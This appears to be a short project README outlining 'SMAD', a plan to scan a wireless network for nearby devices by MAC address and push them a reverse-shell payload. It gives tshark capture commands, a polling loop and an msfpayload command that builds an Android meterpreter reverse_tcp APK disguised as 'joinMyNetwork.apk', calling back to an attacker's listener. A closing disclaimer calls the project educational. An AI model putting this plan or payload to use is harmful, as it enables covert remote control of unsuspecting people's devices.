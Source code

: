 SMAD

Raw Idea
The idea here is to scan for devices in range of my network. Sending out a request to all devices in range to join. In return I want to provide them with a reverse_tcp payload.

The one unique identifier would be the MAC (Media Access Control) address. Which we will SCAN for, and DROP a payload. Lets see how this pans out.

Problem
The currently known problems associated with this idea are;
    -Having a script running for a period of time
        This could be in a while loop for say 300 seconds
    -To prevent the req beign sent out again to the same device, save the MAC it into a file or db
        looking for the most efficient
    -heterogeneity issues
        If it is an android device wanting to connect, would have to wrap the payload into a .apk
    -Which CLI tools to use to scan the LAN
        wireshark, tshark, arp-scan, airmon-ng & airodump-ng


Current ideas..

while true ; do ./SMAD.<extension> ; sleep 300 ; done

tshark -D (Print a list of the interfaces on which TShark can capture)
    wlan0 is on interface 2
tshark -i 2 -a [autostop] duration:300 -w [write] tshark-scan-collection.pcap

msfpayload android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 R > joinMyNetwork.apk






This project is for learning and knowledge share to which I do no advocate or take upon any responsibility for illegal actions and/or damage performed or caused by individuals who use this information for purposes which it is not intended to be used.
